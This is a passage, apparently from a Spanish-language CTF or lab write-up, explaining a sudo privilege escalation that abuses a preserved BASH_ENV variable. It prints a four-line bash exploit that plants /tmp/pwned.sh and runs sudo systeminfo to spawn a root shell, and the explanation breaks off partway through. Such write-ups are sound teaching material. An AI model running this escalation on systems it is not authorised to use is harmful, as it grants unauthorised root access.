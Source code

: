 ![paste](./images/20.jpeg)


```bash
 echo '/bin/bash' > /tmp/pwned.sh
 chmod +x /tmp/pwned.sh 
 export BASH_ENV=/tmp/pwned.sh 
 sudo /usr/bin/systeminfo
```

![paste](./images/21.jpeg)



# Explicación Detallada 

Esta vulnerabilidad aprovecha la combinación de una configuración insegura de `sudo` que preserva variables de entorno peligrosas, específicamente `BASH_ENV`, junto con la capacidad de ejecutar un comando como usuario privilegiado.

## Componentes Técnicos

### 1. Variable BASH_ENV

```bash
BASH_ENV
```

**Descripción:** Variable de entorno especial de Bash que especifica un archivo o comando a ejecutar cuando Bash se inicia en modo no-interactivo.
